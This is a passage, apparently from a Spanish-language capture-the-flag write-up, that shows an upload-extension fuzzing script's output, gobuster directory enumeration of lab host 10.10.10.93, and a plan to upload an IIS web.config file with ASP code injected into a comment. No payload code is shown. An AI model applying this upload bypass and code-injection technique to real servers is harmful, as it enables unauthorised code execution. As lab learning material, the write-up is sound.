 ```null
python3 extensionfuzz.py
[*] Extension .jpg is valid!!
[*] Extension .gif is valid!!
[*] Extension .jpg is valid!!
[*] Extension .png is valid!!
[*] Extension .doc is valid!!
[*] Extension .config is valid!!
[*] Extension .jpeg is valid!!
[*] Extension .xls is valid!!
[*] Extension .xlsx is valid!!
[*] Extension .docx is valid!!
[*] Extension .doc.doc is valid!!
[*] Extension .jpg.jpg is valid!!
[*] Extension .opml.config is valid!!
[*] Extension .0.jpg is valid!!
[*] Extension .001.l.jpg is valid!!
[*] Extension .002.l.jpg is valid!!
[*] Extension .003.l.jpg is valid!!
[*] Extension .003.jpg is valid!!
[*] Extension .004.l.jpg is valid!!
[*] Extension .004.jpg is valid!!
[*] Extension .006.l.jpg is valid!!
[*] Extension .01-l.jpg is valid!!
[*] Extension .01.jpg is valid!!
[*] Extension .l.jpg is valid!!
[*] Extension .gif is valid!!
[*] Extension .thumb.jpg is valid!!
```

Puedo intentar subir un archivo ```.config``` del IIS. En este [artículo](https://www.ivoidwarranties.tech/posts/pentesting-tuts/iis/web-config/) está todo detallado. Consiste en inyectar código ASP en un comentario

Hay un directorio donde se suben los archivos

```null
gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 300 --add-slash --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 300
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/03/29 12:43:54 Starting gobuster in directory enumeration mode
===============================================================
/UploadedFiles/       (Status: 403) [Size: 1233]
/uploadedFiles/       (Status: 403) [Size: 1233]
```
